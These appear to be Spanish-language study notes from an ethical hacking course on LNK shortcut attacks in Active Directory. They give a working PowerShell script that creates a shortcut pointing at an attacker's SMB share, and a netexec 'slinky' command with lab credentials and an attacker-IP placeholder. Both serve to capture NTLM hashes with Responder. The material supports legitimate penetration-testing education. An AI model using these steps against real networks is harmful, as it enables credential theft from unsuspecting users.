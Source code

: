
Los ataques mediante accesos directos consisten en aprovechar carpetas compartidas accesibles para todos los usuarios. En este caso, podemos crear un acceso directo que apunte a un recurso de red inexistente. Al tener `Responder` activo en nuestra máquina, cuando un usuario intente abrir el acceso directo, su sistema buscará el recurso inexistente, enviando automáticamente sus credenciales NTLM, las cuales podremos capturar.




Esto lo podemos hacer desde cualquier maquina, no tiene por que ser la maquina victima, ya que despues podemos compiar el archivo generado y moverlo a la carpeta que queramos.

```powershell
$objShell = New-Object -ComObject WScript.shell $lnk = $objShell.CreateShortcut("C:\test.lnk") $lnk.TargetPath = "\\192.168.138.149\@test.png" $lnk.WindowStyle = 1 $lnk.IconLocation = "%windir%\system32\shell32.dll, 3" $lnk.Description = "Test" $lnk.HotKey = "Ctrl+Alt+T" $lnk.Save()
```



Si queremos que nos lleguen hashes y tenemos alguna pass, podemos usar slinky de netexec o crackmapexec

```bash
netexec smb 192.168.0.231 -d marvel.local -u fcastle -p Mypassword1234! -M slinky -M slinky -o NAME=<LNK file name> SERVER=<attacker IP>
```


https://academy.tcm-sec.com/courses/practical-ethical-hacking-the-complete-course/lectures/33637401